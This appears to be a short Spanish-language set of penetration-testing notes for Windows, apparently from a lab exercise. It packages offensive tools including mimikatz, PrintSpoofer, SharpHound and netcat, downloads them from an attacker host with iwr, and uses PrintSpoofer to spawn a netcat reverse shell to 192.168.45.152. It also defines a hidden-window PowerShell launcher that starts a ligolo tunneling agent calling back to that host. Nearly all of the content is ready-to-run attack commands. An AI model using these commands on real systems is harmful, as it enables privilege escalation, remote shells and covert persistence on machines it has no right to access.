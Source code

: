 
### Subir tools

```bash
zip -r tools.zip agent.exe nc.exe PrintSpoofer64.exe mimikatz.exe PowerView.ps1 SharpHound.ps1
```
---
```bash
iwr -uri http://192.168.45.152:8000/tools.zip -Outfile tools.zip
```
---
```bash
Expand-Archive tools.zip -DestinationPath .
```

### WPE

```powershell
.\PrintSpoofer64.exe -c "C:\Users\eric.wallows\Documents\nc.exe 192.168.45.152 4444 -e cmd"
```

### Ejecucion en segundo plano

* Funcion

```powershell
function bg_exec($cmd) {
    Start-Process -WindowStyle Hidden -FilePath "powershell.exe" -ArgumentList "-nop -w hidden -c $cmd"
}
```
* ligolo:
```powershell
bg_exec "C:\Users\eric.wallows\Documents\agent.exe -connect 192.168.45.152:11601 -ignore-cert"
```

